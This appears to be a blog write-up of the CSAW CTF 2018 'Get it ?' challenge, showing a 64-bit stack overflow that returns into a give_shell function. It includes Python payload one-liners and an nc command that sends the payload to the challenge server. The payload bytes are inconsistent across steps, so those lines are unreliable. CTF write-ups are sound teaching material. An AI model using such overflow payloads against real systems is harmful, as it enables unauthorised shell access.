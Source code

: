 ```yaml
---
layout: post
title: CSAW CTF 2018 - Get it ?
image: "/assets/img/2018/csawctf2018/getit/1.png"
categories: [general, csawctf2018]
tags: [csawctf2018, writeup]
twitter_text: "Write-up for Get it ?"
introduction: "Write-up for Get it ?"
description: "Write-up for Get it ?"
---
```



![](/assets/img/2018/csawctf2018/getit/1.png)

First let's run the program to see what the program is about. It's a 64-bit ELF !

![](/assets/img/2018/csawctf2018/getit/2.png)


Now let's go to gdb to analyse the file. To begin I disassemble the main function, but I found nothing interesting.

![](/assets/img/2018/csawctf2018/getit/3.png)

After this I used IDA PRO. In the table of function, I can see a function whose name is "give_shell". If I looking around we can see that we have what we want, a call system :

![](/assets/img/2018/csawctf2018/getit/4.png)


Return into gdb to find the padding to control the RIP register. After a few try I found the good padding :

```
r <<< $(python2 -c 'print "A"*40+"B"*4')
```

And we can see that we control rip with 0x42424242(BBBB in hex).

![](/assets/img/2018/csawctf2018/getit/5.png)

Now we have to find the address of the function give_shell :

![](/assets/img/2018/csawctf2018/getit/6.png)

Restart the program with the commands, so that we have the address of give_shell in RIP :

```
 r <<< $(python2 -c 'print "A"*40+"\xb6\x05\x40"')
"')
```


As we can see, the address is not good, because it's a 64-bit program and we have to add some \x00 :


```
r <<< $(python2 -c 'print "A"*40+"\x6b\x05\x04\x00\x00\x00"')
```
![](/assets/img/2018/csawctf2018/getit/7.png)

And there you have your /bin/bash !!! 

![](/assets/img/2018/csawctf2018/getit/8.png)

The last step is to send the command in remote to get the flag :

```
python2 -c 'print "A"*40+"\xb6\x05\x40\x00\x00\x00"' > commands.txt
cat commands.txt - | nc pwn.chal.csaw.io 9001 
 ```


![](/assets/img/2018/csawctf2018/getit/9.png)


> Flag : flag{y0u_deF_get_itls}